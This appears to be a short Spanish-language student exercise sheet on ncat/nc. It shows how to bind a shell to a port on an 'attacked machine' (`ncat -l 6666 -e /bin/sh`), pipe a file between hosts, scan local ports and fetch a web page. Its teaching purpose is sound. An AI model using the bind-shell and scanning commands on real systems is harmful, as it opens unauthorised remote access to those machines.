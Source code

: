 ## Miguel Estevez
### 2017-0200


<div align="center" style="font-size:40px">Ncat</div>

### a. Ejecutar una aplicacion/mandato en una maquina remota.

```bash
ncat -l 6666 -e /bin/ls
```

### b. Convertir maquina atacada en accesible por un puerto dado

```bash
ncat -l 6666 -e /bin/sh
```

### c. Enviar archivo de una maquina a otra.

**Receptor**

```bash
nc -l 1499 > salida.out
```

**Enviador**
```bash
nc 127.0.0.1 1499 < entrada
```

### d. "Escanear" puertos de maquina atacada.

```bash
ncat -z -v -n localhost 1-9000
```

### e. Crear cliente y servidor.

### f. Comunicarse con un servidor: bajar una pagina web

```bash
printf 'GET / HTTP/1.1\r\nHost: github.com\r\n\r\n' | ncat --ssl github.com 443
```
